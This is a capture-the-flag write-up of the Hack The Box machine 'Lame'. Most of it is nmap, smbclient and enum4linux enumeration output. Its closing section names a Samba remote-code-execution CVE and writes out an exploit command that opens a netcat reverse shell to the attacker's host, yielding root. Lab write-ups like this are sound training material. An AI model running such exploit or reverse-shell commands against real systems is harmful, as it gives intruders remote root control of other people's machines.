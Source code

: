 #+TITLE:Lame write up
#+AUTHOR:Wordir

* Enumeration

as first step we ping the machine ip to see if the host is up , and because we are connected to the host
network with vpn, we can start emumerating the services that runs ont the target ip.
to do this we are going to use Nmap , an opensource software , usually used to perform scan on a network

as we can see we have a lot of service here , ssh (to perform remote connection) , ftp (to exchange file),
smb(server message block also used to share data and file in a network)

** result of the scan here:

*sudo nmap -sC -sV -O 10.10.10.3*      

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-23 09:02 EDT
Nmap scan report for 10.10.10.3
Host is up (0.045s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
/| ftp-syst: 
/|   STAT: 
/| FTP server status:
/|      Connected to 10.10.14.36
/|      Logged in as ftp
/|      TYPE: ASCII
/|      No session bandwidth limit
/|      Session timeout in seconds is 300
/|      Control connection is plain text
/|      Data connections will be plain text
/|      vsFTPd 2.3.4 - secure, fast, stable
/|_End of status
/|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
/22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
/| ssh-hostkey: 
/|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
/|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.23 (92%), Belkin N300 WAP (Linux 2.6.30) (90%), Control4 HC-300 home controller (90%), D-Link DAP-1522 WAP, or Xerox WorkCentre Pro 245 or 6556 printer (90%), Dell Integrated Remote Access Controller (iDRAC5) (90%), Dell Integrated Remote Access Controller (iDRAC6) (90%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (90%), Linux 2.4.21 - 2.4.31 (likely embedded) (90%), Linux 2.4.7 (90%), Citrix XenServer 5.5 (Linux 2.6.18) (90%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
/| smb-os-discovery: 
/|   OS: Unix (Samba 3.0.20-Debian)
/|   Computer name: lame
/|   NetBIOS computer name: 
/|   Domain name: hackthebox.gr
/|   FQDN: lame.hackthebox.gr
/|_  System time: 2024-03-23T09:03:18-04:00
/|_smb2-time: Protocol negotiation failed (SMB2)
/|_clock-skew: mean: 2h00m33s, deviation: 2h49m46s, median: 30s
/| smb-security-mode: 
/|   account_used: guest
/|   authentication_level: user
/|   challenge_response: supported
/|_  message_signing: disabled (dangerous, but default)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.14 seconds


now because we have multiple services running on multiple ports, we need to test if someone has
a missconfiguration.

** FTP (File Transfer Protocol)

as first, when we see a port dedicated to ftp service, we try to login as:

*user:anonymous*
*password:" "*

The purpose of anonymous FTP access is to provide public access to files stored on the server,
often for purposes such as sharing software, documents, or other files with the general public.
However, because it allows anyone to access files without authentication,
anonymous FTP can pose security risks if not properly configured and monitored,
and sometimes it is possible to log in anonymously due to a misconfiguration

so , once we are in the ftp server we can se that we are in passive mode
(the server tells to the client in which port the client needs to connect for recieve or transfer the data )
and we cant list the direcories or even download some file, so for now it's time to chance ouar target service


** SMB(Server Message Block)
to perform a login and communicate with the SMB server we use *smbclient*
The following command will list out all available shares on the target server using anonymous login.

*smbclient -L \\hackthebox.gr -I 10.10.10.3 -N*

hackthebox.gr is the domain, 10.10.10.3 is the ip of the SMB server

*-L* allows you to look at what services are available on a server.

*-N* If specified, this parameter suppresses the normal password prompt from the client to the user.
This is useful when accessing a service that does not require a password.

** Result:

smbclient -L \\hackthebox.gr -I 10.10.10.3 -N
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful


now it' time for a better enumeration with *enum4linux* 

*** enum4linux:
enum4linux -a 10.10.10.3
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sat Mar 23 10:37:56 2024

 =========================================( Target Information )=========================================

Target ........... 10.10.10.3
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 =============================( Enumerating Workgroup/Domain on 10.10.10.3 )=============================


[E] Can't find workgroup/domain



 =================================( Nbtstat Information for 10.10.10.3 )=================================

Looking up status of 10.10.10.3
No reply from 10.10.10.3

 ====================================( Session Check on 10.10.10.3 )====================================
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[+] Server 10.10.10.3 allows sessions using username '', password ''                                                                                                                                                                                                                                                        
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
 =================================( Getting domain SID for 10.10.10.3 )=================================
                                                                                                                                                                                                                                                                                                                            
Domain Name: WORKGROUP                                                                                                                                                                                                                                                                                                      
Domain Sid: (NULL SID)

[+] Can't determine if host is part of domain or part of a workgroup                                                                                                                                                                                                                                                        
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
 ====================================( OS information on 10.10.10.3 )====================================
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[E] Can't get OS info with smbclient                                                                                                                                                                                                                                                                                        
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[+] Got OS info for 10.10.10.3 from srvinfo:                                                                                                                                                                                                                                                                                
        LAME           Wk Sv PrQ Unx NT SNT lame server (Samba 3.0.20-Debian)                                                                                                                                                                                                                                               
        platform_id     :       500
        os version      :       4.9
        server type     :       0x9a03


 ========================================( Users on 10.10.10.3 )========================================
                                                                                                                                                                                                                                                                                                                            
index: 0x1 RID: 0x3f2 acb: 0x00000011 Account: games    Name: games     Desc: (null)                                                                                                                                                                                                                                        
index: 0x2 RID: 0x1f5 acb: 0x00000011 Account: nobody   Name: nobody    Desc: (null)
index: 0x3 RID: 0x4ba acb: 0x00000011 Account: bind     Name: (null)    Desc: (null)
index: 0x4 RID: 0x402 acb: 0x00000011 Account: proxy    Name: proxy     Desc: (null)
index: 0x5 RID: 0x4b4 acb: 0x00000011 Account: syslog   Name: (null)    Desc: (null)
index: 0x6 RID: 0xbba acb: 0x00000010 Account: user     Name: just a user,111,, Desc: (null)
index: 0x7 RID: 0x42a acb: 0x00000011 Account: www-data Name: www-data  Desc: (null)
index: 0x8 RID: 0x3e8 acb: 0x00000011 Account: root     Name: root      Desc: (null)
index: 0x9 RID: 0x3fa acb: 0x00000011 Account: news     Name: news      Desc: (null)
index: 0xa RID: 0x4c0 acb: 0x00000011 Account: postgres Name: PostgreSQL administrator,,,       Desc: (null)
index: 0xb RID: 0x3ec acb: 0x00000011 Account: bin      Name: bin       Desc: (null)
index: 0xc RID: 0x3f8 acb: 0x00000011 Account: mail     Name: mail      Desc: (null)
index: 0xd RID: 0x4c6 acb: 0x00000011 Account: distccd  Name: (null)    Desc: (null)
index: 0xe RID: 0x4ca acb: 0x00000011 Account: proftpd  Name: (null)    Desc: (null)
index: 0xf RID: 0x4b2 acb: 0x00000011 Account: dhcp     Name: (null)    Desc: (null)
index: 0x10 RID: 0x3ea acb: 0x00000011 Account: daemon  Name: daemon    Desc: (null)
index: 0x11 RID: 0x4b8 acb: 0x00000011 Account: sshd    Name: (null)    Desc: (null)
index: 0x12 RID: 0x3f4 acb: 0x00000011 Account: man     Name: man       Desc: (null)
index: 0x13 RID: 0x3f6 acb: 0x00000011 Account: lp      Name: lp        Desc: (null)
index: 0x14 RID: 0x4c2 acb: 0x00000011 Account: mysql   Name: MySQL Server,,,   Desc: (null)
index: 0x15 RID: 0x43a acb: 0x00000011 Account: gnats   Name: Gnats Bug-Reporting System (admin)        Desc: (null)
index: 0x16 RID: 0x4b0 acb: 0x00000011 Account: libuuid Name: (null)    Desc: (null)
index: 0x17 RID: 0x42c acb: 0x00000011 Account: backup  Name: backup    Desc: (null)
index: 0x18 RID: 0xbb8 acb: 0x00000010 Account: msfadmin        Name: msfadmin,,,       Desc: (null)
index: 0x19 RID: 0x4c8 acb: 0x00000011 Account: telnetd Name: (null)    Desc: (null)
index: 0x1a RID: 0x3ee acb: 0x00000011 Account: sys     Name: sys       Desc: (null)
index: 0x1b RID: 0x4b6 acb: 0x00000011 Account: klog    Name: (null)    Desc: (null)
index: 0x1c RID: 0x4bc acb: 0x00000011 Account: postfix Name: (null)    Desc: (null)
index: 0x1d RID: 0xbbc acb: 0x00000011 Account: service Name: ,,,       Desc: (null)
index: 0x1e RID: 0x434 acb: 0x00000011 Account: list    Name: Mailing List Manager      Desc: (null)
index: 0x1f RID: 0x436 acb: 0x00000011 Account: irc     Name: ircd      Desc: (null)
index: 0x20 RID: 0x4be acb: 0x00000011 Account: ftp     Name: (null)    Desc: (null)
index: 0x21 RID: 0x4c4 acb: 0x00000011 Account: tomcat55        Name: (null)    Desc: (null)
index: 0x22 RID: 0x3f0 acb: 0x00000011 Account: sync    Name: sync      Desc: (null)
index: 0x23 RID: 0x3fc acb: 0x00000011 Account: uucp    Name: uucp      Desc: (null)

user:[games] rid:[0x3f2]
user:[nobody] rid:[0x1f5]
user:[bind] rid:[0x4ba]
user:[proxy] rid:[0x402]
user:[syslog] rid:[0x4b4]
user:[user] rid:[0xbba]
user:[www-data] rid:[0x42a]
user:[root] rid:[0x3e8]
user:[news] rid:[0x3fa]
user:[postgres] rid:[0x4c0]
user:[bin] rid:[0x3ec]
user:[mail] rid:[0x3f8]
user:[distccd] rid:[0x4c6]
user:[proftpd] rid:[0x4ca]
user:[dhcp] rid:[0x4b2]
user:[daemon] rid:[0x3ea]
user:[sshd] rid:[0x4b8]
user:[man] rid:[0x3f4]
user:[lp] rid:[0x3f6]
user:[mysql] rid:[0x4c2]
user:[gnats] rid:[0x43a]
user:[libuuid] rid:[0x4b0]
user:[backup] rid:[0x42c]
user:[msfadmin] rid:[0xbb8]
user:[telnetd] rid:[0x4c8]
user:[sys] rid:[0x3ee]
user:[klog] rid:[0x4b6]
user:[postfix] rid:[0x4bc]
user:[service] rid:[0xbbc]
user:[list] rid:[0x434]
user:[irc] rid:[0x436]
user:[ftp] rid:[0x4be]
user:[tomcat55] rid:[0x4c4]
user:[sync] rid:[0x3f0]
user:[uucp] rid:[0x3fc]

 ==================================( Share Enumeration on 10.10.10.3 )==================================
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            LAME

[+] Attempting to map shares on 10.10.10.3                                                                                                                                                                                                                                                                                  
                                                                                                                                                                                                                                                                                                                            
//10.10.10.3/print$     Mapping: DENIED Listing: N/A Writing: N/A                                                                                                                                                                                                                                                           
//10.10.10.3/tmp        Mapping: OK Listing: OK Writing: N/A
//10.10.10.3/opt        Mapping: DENIED Listing: N/A Writing: N/A

[E] Can't understand response:                                                                                                                                                                                                                                                                                              
                                                                                                                                                                                                                                                                                                                            
NT_STATUS_NETWORK_ACCESS_DENIED listing \*                                                                                                                                                                                                                                                                                  
//10.10.10.3/IPC$       Mapping: N/A Listing: N/A Writing: N/A
//10.10.10.3/ADMIN$     Mapping: DENIED Listing: N/A Writing: N/A

 =============================( Password Policy Information for 10.10.10.3 )=============================
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            

[+] Attaching to 10.10.10.3 using a NULL share

[+] Trying protocol 139/SMB...

[+] Found domain(s):

        [+] LAME
        [+] Builtin

[+] Password Info for Domain: LAME

        [+] Minimum password length: 5
        [+] Password history length: None
        [+] Maximum password age: Not Set
        [+] Password Complexity Flags: 000000

                [+] Domain Refuse Password Change: 0
                [+] Domain Password Store Cleartext: 0
                [+] Domain Password Lockout Admins: 0
                [+] Domain Password No Clear Change: 0
                [+] Domain Password No Anon Change: 0
                [+] Domain Password Complex: 0

        [+] Minimum password age: None
        [+] Reset Account Lockout Counter: 30 minutes 
        [+] Locked Account Duration: 30 minutes 
        [+] Account Lockout Threshold: None
        [+] Forced Log off Time: Not Set



[+] Retieved partial password policy with rpcclient:                                                                                                                                                                                                                                                                        
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
Password Complexity: Disabled                                                                                                                                                                                                                                                                                               
Minimum Password Length: 0


 ========================================( Groups on 10.10.10.3 )========================================
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[+] Getting builtin groups:                                                                                                                                                                                                                                                                                                 
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[+]  Getting builtin group memberships:                                                                                                                                                                                                                                                                                     
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[+]  Getting local groups:                                                                                                                                                                                                                                                                                                  
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[+]  Getting local group memberships:                                                                                                                                                                                                                                                                                       
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[+]  Getting domain groups:                                                                                                                                                                                                                                                                                                 
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[+]  Getting domain group memberships:                                                                                                                                                                                                                                                                                      
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
 ===================( Users on 10.10.10.3 via RID cycling (RIDS: 500-550,1000-1050) )===================
                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                            
[I] Found new SID:                                                                                                                                                                                                                                                                                                          
S-1-5-21-2446995257-2525374255-2673161615                                                                                                                                                                                                                                                                                   

[+] Enumerating users using SID S-1-5-21-2446995257-2525374255-2673161615 and logon username '', password ''                                                                                                                                                                                                                
                                                                                                                                                                                                                                                                                                                            
S-1-5-21-2446995257-2525374255-2673161615-500 LAME\Administrator (Local User)                                                                                                                                                                                                                                               
S-1-5-21-2446995257-2525374255-2673161615-501 LAME\nobody (Local User)
S-1-5-21-2446995257-2525374255-2673161615-512 LAME\Domain Admins (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-513 LAME\Domain Users (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-514 LAME\Domain Guests (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1000 LAME\root (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1001 LAME\root (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1002 LAME\daemon (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1003 LAME\daemon (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1004 LAME\bin (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1005 LAME\bin (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1006 LAME\sys (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1007 LAME\sys (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1008 LAME\sync (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1009 LAME\adm (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1010 LAME\games (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1011 LAME\tty (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1012 LAME\man (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1013 LAME\disk (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1014 LAME\lp (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1015 LAME\lp (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1016 LAME\mail (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1017 LAME\mail (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1018 LAME\news (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1019 LAME\news (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1020 LAME\uucp (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1021 LAME\uucp (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1025 LAME\man (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1026 LAME\proxy (Local User)
S-1-5-21-2446995257-2525374255-2673161615-1027 LAME\proxy (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1031 LAME\kmem (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1041 LAME\dialout (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1043 LAME\fax (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1045 LAME\voice (Domain Group)
S-1-5-21-2446995257-2525374255-2673161615-1049 LAME\cdrom (Domain Group)

 ================================( Getting printer info for 10.10.10.3 )================================
                                                                                                                                                                                                                                                                                                                            
No printers returned.                                                                                                                                                                                                                                                                                                       


enum4linux complete on Sat Mar 23 10:39:35 2024



* Exploit

we find that the anonymous login is active, but we didn't find anything interesting in
the only folder we had access to as an anonymous user (tmp)

so now it's time to take a look to the samba service version, *netbios-ssn Samba smbd 3.0.20-Debian*
we found out that there is a CVE for remote code execution : *CVE-2007-2447*, and
we found a poc at this repo on git hub: [[https://github.com/Ziemni/CVE-2007-2447-in-Python][Poc]]

with these command : *python3 smbExploit.py  10.10.10.3 445 'nc -c sh 10.10.14.36 4444'* 

we spawned a shell as root, and we found the root flag and the user flag
